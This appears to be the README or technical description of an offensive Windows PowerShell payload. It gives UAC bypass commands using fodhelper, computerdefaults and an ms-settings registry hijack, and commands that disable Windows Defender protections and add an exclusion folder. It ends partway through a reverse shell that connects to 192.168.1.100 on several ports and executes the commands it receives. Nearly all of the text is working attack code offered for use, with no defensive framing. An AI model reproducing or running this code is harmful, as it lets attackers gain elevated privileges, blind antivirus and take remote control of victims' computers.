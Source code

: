 ### Key Technical Components

#### 1. UAC Bypass Techniques

**Fodhelper Method:**
```powershell
fodhelper
powershell -WindowStyle Hidden -Command "Start-Process powershell -Verb RunAs -WindowStyle Hidden"
```

**ComputerDefaults Method:**
```powershell
computerdefaults
powershell -WindowStyle Hidden -Command "Start-Process powershell -Verb RunAs -WindowStyle Hidden"
```

**Registry-Based Method:**
```powershell
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v "" /t REG_SZ /d "powershell.exe -WindowStyle Hidden" /f
computerdefaults
```

#### 2. Antivirus Evasion

The payload implements comprehensive Windows Defender bypass:

```powershell
# Disable real-time monitoring
Set-MpPreference -DisableRealtimeMonitoring $true -Force

# Disable behavior monitoring  
Set-MpPreference -DisableBehaviorMonitoring $true -Force

# Disable IOAV protection
Set-MpPreference -DisableIOAVProtection $true -Force

# Disable cloud protection
Set-MpPreference -MAPSReporting Disabled -Force

# Add exclusions
Add-MpPreference -ExclusionPath "$env:APPDATA\Microsoft\Windows\Update" -Force
```

#### 3. Reverse Shell Implementation

**Direct Execution:**
```powershell
try { 
    $ports = @(4444, 4445, 8080, 8443, 443)
    foreach($port in $ports) {
        try {
            $client = New-Object System.Net.Sockets.TCPClient("192.168.1.100", $port)
            $stream = $client.GetStream()
            $reader = New-Object System.IO.StreamReader($stream)
            $writer = New-Object System.IO.StreamWriter($stream)
            $writer.AutoFlush = $true
            
            while($true) {
                $command = $reader.ReadLine()
                if($command -eq "exit") { break }
                if($command -eq "kill") { exit }
                
                $output = Invoke-Expression $command 2>&1
                $writer.WriteLine($output)
            }
```